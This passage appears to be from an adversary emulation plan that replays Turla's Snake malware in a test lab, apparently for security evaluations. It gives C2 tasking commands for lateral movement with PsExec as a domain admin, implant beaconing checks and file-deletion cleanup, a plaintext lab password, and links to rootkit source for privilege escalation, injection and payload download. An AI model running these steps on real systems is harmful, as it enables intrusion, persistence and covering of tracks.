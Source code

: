 * Wait 1 minute before running the following command to execute PsExec as `EgleAdmin`, which will run the Snake installer on the file server `berzas (10.100.30.204)`:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "C:\\Windows\\System32\\file_svc_mgr.exe", "args":"\\\\berzas -accepteula -s -c C:\\Windows\\System32\\cmu_svc_v2.exe", "runas":"nk\\EgleAdmin"}'
```

:arrow_right: Go back to your RDP session to `Azuolas (10.100.40.103)` as `Egle`.

* Minimize the RDP window.

:arrow_right: RDP into `berzas` (`10.100.30.204`) as `EgleAdmin`:

| Username   | Password | 
| :--------: | :---------------: | 
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

* Minimize the RDP window, keeping processes running.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server. 

* Wait 1 minute before running the following command to remove files from `Azuolas (10.100.40.103)`:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 1, "command": "del /Q C:\\Windows\\System32\\file_svc_mgr.exe C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```

### :moyai: Source Code
* [Snake Installer](SnakeInstaller_README.md)
  * [Privilege Escalation](privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](main.cpp#L63)
  * [Start Snake Rootkit Driver](driver.cpp#L111)
* [Snake Rootkit](Snake_README.md)
  * [Driver](driver.c#L76)
  * [Function Hooking](hooks.c#L31)
    * [Infinity Hook](libinfinityhook_README.md)
  * [Drop DLL](filesystem.cpp#L22)
  * [Trigger injection on network request](wfp.cpp#L276)
  * [Inject Usermodule DLL](inject.cpp#L30)
* [Snake Usermodule DLL](UserModule_README.md)
  * [Task download](comms_http.cpp#L237)
  * [Task execution via cmd](execute.cpp#L337)
  * [Generic process execution with optional token impersonation](execute.cpp#L406)
  * [Payload download](comms_http.cpp#L604)
  * [Token duplication](execute_token.cpp#L284)

### :microscope: Cited Intelligence

